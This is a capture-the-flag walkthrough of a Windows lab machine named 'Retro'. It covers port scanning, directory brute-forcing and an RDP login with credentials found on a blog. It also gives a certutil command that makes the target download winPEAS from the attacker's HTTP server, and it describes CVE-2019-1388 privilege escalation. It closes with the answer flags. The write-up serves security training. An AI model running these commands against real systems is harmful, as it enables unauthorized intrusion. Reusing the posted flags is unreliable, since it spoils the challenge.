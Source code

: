 # Retro - Hard

```shell
nmap -T4 -p- -A -Pn -v 10.10.154.16

feroxbuster -u http://10.10.154.16 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

xfreerdp /u:wade /p:parzival /v:10.10.154.16:3389

#in windows command prompt
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

#in attacker machine
python3 -m http.server

#in windows cmd
cd C:\Users\Wade\Desktop

certutil.exe -urlcache -f http://10.14.31.212:8000/winPEASx64.exe winpeas.exe

#restore hhupd.exe from Recycle Bin
#follow CVE-2019-1388 to get cmd as Administrator
#it will take multiple tries
```

* Open ports & services:

  * 80 - http - Microsoft iis httpd 10.0
  * 3389 - ms-wbt-server - Microsoft Terminal Services

* We can start by enumerating the webpage on port 80; it seems to be a IIS default homepage.

* Using feroxbuster, we get a directory /retro, which leads to a page for 'Retro Fanatics', a blog page.

* Now, exploring the webpage, we can see that the author's name is 'Wade'.

* Furthermore, one of the blogs - 'Ready Player One' - mentions that the main character of the movie with the same name is used while logging in.

* There is a comment left by the author on the same blog, and it mentions 'parzival'.

* We have a possible set of creds, wade:parzival, and that can be used for logging in over the service at port 3389.

* Logging in via xfreerdp, we get the user flag from wade's Desktop.

* We can begin with basic enumeration on the Windows machine by using command prompt.

* ```winpeas``` shows that the system is vulnerable to multiple CVEs - CVE-2019-0836, CVE-2019-1388, CVE-2020-1013.

* We will be using CVE-2019-1388, which abuses the UAC windows certificate dialog.

* We can go through the details by Googling this exploit; we can either download hhupd.exe or restore hhupd.exe from the Recycle Bin.

* In order for this to work, before attempting to carry out the exploit, we have to open IE browser, and it might take multiple tries.

* After multiple times of opening hhupd.exe UAC prompt and going through the steps, we get the option to view the certificate in IE browser.

* This gives us an error page; we can use Ctrl+S to load the 'save page' prompt on IE.

* In the file explorer popup, we can go to C:\Windows\System32\cmd.exe - this loads command prompt as Administrator, and we can view root flag.

```markdown
1. A web server is running on the target. What is the hidden directory which the website lives on? - /retro

2. user.txt - 3b99fbdc6d430bfb51c72c651a261927

3. root.txt - 7958b569565d7bd88d10c6f22d1c4063
```
